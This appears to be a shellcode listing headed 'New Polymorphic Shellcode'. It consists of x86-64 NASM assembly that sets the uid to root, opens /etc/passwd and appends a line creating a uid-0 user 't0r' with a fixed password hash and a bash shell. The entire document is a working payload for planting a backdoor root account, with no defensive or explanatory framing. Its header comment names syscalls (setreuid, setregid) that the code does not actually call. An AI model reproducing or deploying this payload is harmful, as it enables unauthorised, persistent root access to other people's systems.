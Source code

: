 ## New Polymorphic Shellcode
```nasm
;Purpose:       adds user "t0r" with password "Winner" to /etc/passwd
;executed syscalls:     setreuid, setregid, open, write, close, exit
;Result:        t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash
_start:
;sys_setuid(0)
xor rdi, rdi   ;arg 1 -- set uid to root (0)
mul rdi
push rdi
pop rsi
mov al, 0x69   ;syscall setuid
syscall

; int open(const char *pathname, int flags);
jmp short callFileString
popFileString:
pop rdi                  ; ARG1 - pointer to "/etc/passwd"
mov [rdi+0xB], dl        ; Null terminator byte for string

mov si, 0x441            ; ARG2 - flags to open and write
mov al, 2                ; open syscall
syscall                  ; rax=fd for opened file

;sys_write(uint fd, char* buf, uint size)
; rax=0x1   rdi=fd  rsi=&str   rdx=0x26
jmp short callPasswdString
popPasswdString:
pop rsi                  ; ARG2 - &passwdString
mov [rsi+0x26], dl       ; Null terminator byte for string
push rax
pop rdi                  ; ARG1 - fd
add rdx, 0x26            ; ARG3 - len(passwdString)
xor rax, rax
inc rax                  ; 0x1 = write systemcall
syscall

;;close(fd)
xor rax, rax             ; rdi is already the file descriptor
add al, 3                ; 0x3 = close systemcall
syscall

;;sys_exit(int err_code)
xor rax, rax
mov al, 0x3C             ; 0x3C = exit systemcall
xor rdi, rdi             ; ARG1 = Error Code = 0x0
syscall

callFileString:
call popFileString
fileString: db "/etc/passwdA"
callPasswdString:
call popPasswdString
passwdString: db "t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash"
```
